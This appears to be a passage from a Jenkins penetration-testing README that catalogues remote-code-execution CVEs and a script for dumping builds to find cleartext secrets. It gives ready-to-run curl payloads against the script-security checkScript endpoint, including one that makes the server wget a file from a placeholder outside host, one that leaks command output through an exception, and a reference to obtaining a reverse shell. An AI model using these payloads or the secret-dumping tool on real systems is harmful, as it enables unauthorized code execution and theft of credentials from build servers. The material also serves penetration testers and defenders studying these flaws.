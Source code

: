 Original RCE vulnerability [here](https://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html), full exploit [here](https://github.com/petercunha/jenkins-rce).

Alternative RCE with Overall/Read and Job/Configure permissions [here](https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc).


CheckScript RCE in Jenkins (CVE-2019-1003029, CVE-2019-1003030)
---------------------------------------------------------------
[Jenkins Advisory](https://jenkins.io/security/advisory/2019-03-06/), [Credits](https://twitter.com/webpentest).

Check if a Jenkins instance is vulnerable (needs Overall/Read permissions) with some Groovy:
```bash
curl -k -4 -X POST "https://example.com/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d "sandbox=True" -d 'value=class abcd{abcd(){sleep(5000)}}'
```

Execute arbitraty bash commands:
```bash
curl -k -4 -X POST "https://example.com/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d "sandbox=True" -d 'value=class abcd{abcd(){"wget xx.xx.xx.xx/bla.txt".execute()}}'
```

If you don't immediately get a reverse shell you can debug by throwing an exception:
```bash
curl -k -4 -X POST "https://example.com/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d "sandbox=True" -d 'value=class abcd{abcd(){def proc="id".execute();def os=new StringBuffer();proc.waitForProcessOutput(os, System.err);throw new Exception(os.toString())}}'
```

Git plugin (<3.12.0) RCE in Jenkins (CVE-2019-10392)
----------------------------------------------------
[Jenkins Advisory](https://jenkins.io/security/advisory/2019-09-12/), [Credits](https://iwantmore.pizza/posts/cve-2019-10392.html).

This one will only work is a user has the 'Jobs/Configure' rights in the security matrix so it's very specific.


CorePlague (CVE-2023-27898, CVE-2023-27905)
-------------------------------------------
[Jenkins Advisory](https://www.jenkins.io/security/advisory/2023-03-08/), [Credits](https://blog.aquasec.com/jenkins-server-vulnerabilities)

Note that this is only exploitable if using a *dedicated* and out-of-date [Update Center](https://www.jenkins.io/templates/updates/). Therefore most servers are not vulnerable.


Dumping builds to find cleartext secrets
========================================
Use [this script](./dump_builds/jenkins_dump_builds.py) to dump build console outputs and build environment variables to hopefully find cleartext secrets.

```
usage: jenkins_dump_builds.py [-h] [-u USER] [-p PASSWORD] [-o OUTPUT_DIR]
                              [-l] [-r] [-d] [-s] [-v]
                              url [url ...]

Dump all available info from Jenkins

positional arguments:
  url

optional arguments:
  -h, --help            show this help message and exit
  -u USER, --user USER
  -p PASSWORD, --password PASSWORD
```